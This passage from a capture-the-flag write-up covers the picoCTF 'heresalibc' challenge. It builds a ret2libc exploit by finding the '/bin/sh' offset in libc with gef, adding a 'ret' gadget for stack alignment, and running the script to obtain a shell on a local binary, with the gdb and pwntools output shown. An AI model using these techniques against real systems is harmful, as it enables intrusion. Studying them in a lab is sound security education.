 The pop-rdi gadget, as well as system function from libc, are recognized but the /bin/sh address is not. Thus, that is the problem and we can use gef's grep function to find the address of /bin/sh within the program i.e. `grep /bin/sh`. This gives us 

```bash
gef➤  grep /bin/sh
[+] Searching '/bin/sh' in memory
[+] In '/mnt/d/CTFs/picoCTF/Pwn/heresalibc/libc.so.6'(0x7f237094f000-0x7f2370b36000), permission=r-x
  0x7f2370b030fa - 0x7f2370b03101  →   "/bin/sh"
```

which we can use to find the /bin/sh offset to correct our script. We do some arithmetic in gdb, subtracting the libc_base_addr taken from `vm` from the /bin/sh address, and get: 

```
gef➤  p 0x7f2370b030fa - 0x00007f237094f000
$3 = 0x1b40fa
```

Changing the /bin/sh offset accordingly and running, it still does not work. There is an attempt to connect to the remote to see if the libc linker is causing issues, but that is not the case. A stack alignment issue is the next guess, so we try to find a gadget that simply returns with the command `ROPgadget --binary vuln | grep ": ret"`: 

```bash
(Linux_Pwn_Venv) asdiml@DESKTOP-XXXXXX:~$ ROPgadget --binary vuln | grep ": ret"
0x000000000040052e : ret
0x0000000000400562 : ret 0x200a
0x00000000004007fd : ret 0x8348
0x0000000000400552 : retf 0x200a
```

We then add the first address 0x40052e to our second payload, before system_addr. The rationale for this is that for more modern Ubuntu libcs, there will be certain instructions requiring $rsp to be 16-bit aligned, which means that the last hexadecimal digit of $rsp must be 0. Since $rsp increments and decrements by 8 in an operation, if stack alignment is really the issue, we simply need to perform an extra return operation to increment $rsp from ending with 8 to ending with 0 (i.e. clearing the last nibble). 

Running the script, we are now able to gain acccess to the directory: 

```bash
(Linux_Pwn_Venv) asdiml@DESKTOP-XXXXXX:~$ ./attempt.py
[+] Starting local process './vuln_patched': pid 1189
[*] running in new terminal: ['/usr/bin/gdb', '-q', './vuln_patched', '1189']
[-] Waiting for debugger: Debugger did not attach to pid 1189 within 15 seconds
[*] hex(leak)='0x7ff180d27a30'
[*] hex(libc_base_addr)='0x7ff180ca7000'
[*] Switching to interactive mode
WeLcOmE To mY EcHo sErVeR!
AaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAAAAAAAAAAAAAAAAAAAAd
$ ls
Makefile    connect.sh    libc.so.6  vuln
attempt.py  ld-2.27.so    notes.md   vuln_patched
```
